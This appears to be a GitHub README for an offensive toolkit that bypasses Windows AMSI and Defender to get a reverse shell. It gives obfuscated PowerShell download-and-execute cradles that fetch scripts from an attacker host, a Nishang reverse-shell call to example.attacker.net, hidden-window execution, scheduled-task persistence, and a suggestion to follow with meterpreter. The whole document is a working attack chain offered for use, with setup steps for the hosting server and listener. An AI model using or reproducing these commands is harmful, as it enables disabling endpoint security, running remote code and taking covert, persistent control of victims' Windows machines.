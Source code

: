 # Windows-AMSI-Defender-Bypass

::::Bypassing AMSI and getting a Reverse Shell
------------------------------------------------------------------------------------

To make all these things work, I used a script that disables the AMSI:
From : https://amsi.fail

You can generate your own, but make sure it works.
-------------------------------------------------------------------------------------
AMSI fail script,
-----------------
fail.ps1:
---------
some of those generated scripts uses the "Amsi Utils", but it gets caught by the AMSI, so i defined it outside of the code
like this:

$am='Amsi'+'U'+'til'+'s' 

--------------------------------------------------------------------------------------------
Getting the shell:
-------------------
nish.ps1: 
-----------
The TCP nishang that we always use from: https://github.com/samratashok/nishang/tree/master/Shells

Definning this at the end of the script:

Invoke-PowerShellTcp -Reverse -IPAddress example.attacker.net -Port 443 

------------------------------------------------------------------------------------------------
Running all in one:
-------------------
trigger.ps1:  
------------
This script is going to be the trigger for the 2 invokes(fail.ps1, nish.ps1), it also defines the $am variable for the fail.ps1:

$n = (new-object net.webClient);$am='Amsi'+'U'+'til'+'s';iex ($n).DownloadString('http://example.ddns.net:80/fail.ps1');iex ($n).DownloadString('http://example.ddns.net:80/nish.ps1')

------------------------------------------------------------------------------------------------------------------------------------------------

Finally we will need to "Invoke-Expression" the trigger:
--------------------------------------------------------------
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/trigger.ps1')

Every child process running from this powershell session is going to run without the AMSI, so could easily run a meterpreter from this, but make sure to obfucate it because meterpreter is way more intrusive.


---------------------------------------------

---------------------------------------------

To add an extra
-----------------
We can make it all run as many time as we want by scheduling these Invokes-Expression's:

sched.ps1:
----------
You can modify this to run whenever you want, in (New-TimeSpan -Minutes 'minutes between each run').



In this case you are going to run 2 Invokes:
                    
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/trigger.ps1')
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/sched.ps1')

You can make only one call by creating another .ps1

These scripts are going to be in this repository: 
----------------------------------------
https://github.com/Filiplain/Windows-AMSI-Defender-Bypass

Make sure to define your IP or Domain into the files
And host a server where all the files are located
Don't forget the lsitener with the port that you defined in the nishang or any reverse-shell you use.


Invokes Map:
------------
                                                                 

                trigger.ps1                    
              /            \
          fail.ps1   ;  nish.ps1
                                                       




